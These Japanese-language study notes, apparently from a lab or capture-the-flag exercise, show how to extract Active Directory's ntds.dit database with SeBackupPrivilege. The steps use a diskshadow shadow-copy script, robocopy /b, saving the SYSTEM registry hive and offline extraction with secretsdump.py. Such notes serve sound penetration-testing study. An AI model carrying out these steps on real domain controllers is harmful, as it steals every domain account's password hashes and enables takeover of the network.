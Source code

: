 ## ntds.ditとは？
- **ドメインコントローラーの中でも最も重要なデータベースファイル**
- All data in Active Directory is stored in the file **ntds.dit** (by default located in `C:\Windows\NTDS\`) on every domain controller. (c.f.[Ntds.dit Password Extraction(stealthbits)](https://attack.stealthbits.com/ntds-dit-security-active-directory))
- Admin権限 or **backupユーザー** であれば見れるかも
- **SeBackupPrivilege**が読むことを、**SeRestorePrivilege**が書き込むこと、この二つの権限があれば良い。
- ntds.ditの存在場所：**C:\Windows\NTDS\ntds.dit**
- NTDSファイルをdecryptするためにはkeyが必要で、そのkeyは**system registry hive**なるレジストリに含まれている。-> `reg save hklm\system c:\temp\system`


c.f.)
- 複数のやり方が書いてある -> [Tha Hacker Recipies](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds)
- 実際にうまく動いた -> [Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

**SeBackupPrivilege**がある：

```
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```


# 実際にやってみた（参考：[Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)）

ntds.ditのコピーにおいて、普通の`copy`コマンドではpermission deniedになってしまう。そこで`robocopy`を使う。特に`/b`（または`/B`）フラグで**バックアップとして**コピーができる。つまりAdmin権限がなくても、backupユーザの権限があればpermission deniedにならない（[robocopyについての詳細](https://n-archives.net/software/robosync/articles/robocopy-specs-and-command/#i-3-1)）

*注）先に`mkdir C:\temp`として一時的なディレクトリを作っておく*

-> しかし`PS C:\temp> roboropy C:\Windoes\NTDS\ntds.dit . ntds.dit`というふうに直接コピーすると、現在アクティブなのでコピーできないと言われる。

-> そこで新しいドライブを作り、`diskshadow`でドライブ間のコピーを行うという方法をとる

（スクリプト）

```
┌──(kali㉿kali)-[~]
└─$ cat back_script.txt
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

- スクリプトターゲット上にアップロード（遅かったらsmb使おう）：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> upload /home/kali/back_scrip.txt
```

- `diskshadow`コマンドにスクリプトを指定して実行：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> diskshadow /s back_script.txt
```

これで E:\ ドライブに C:\ ドライブの内容がコピーされた。E:\は現在アクティブじゃないから、`robocopy`が使える：

```
*Evil-WinRM* PS E:\> cd C:\ 
*Evil-WinRM* PS C:\> mkdir tmp
*Evil-WinRM* PS C:\> cd tmp
*Evil-WinRM* PS C:\temp> robocopy /b E:\Windows\ntds . ntds.dit
```

- ntds.ditの復号にはレジストリのキーが必要なのでそれをロードする：

```
*Evil-WinRM* PS C:\temp> reg save hklm\system c:\temp\system
```

その後**ntds.dit**と**system**をKaliに転送する。

Kali上でcrack：

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```
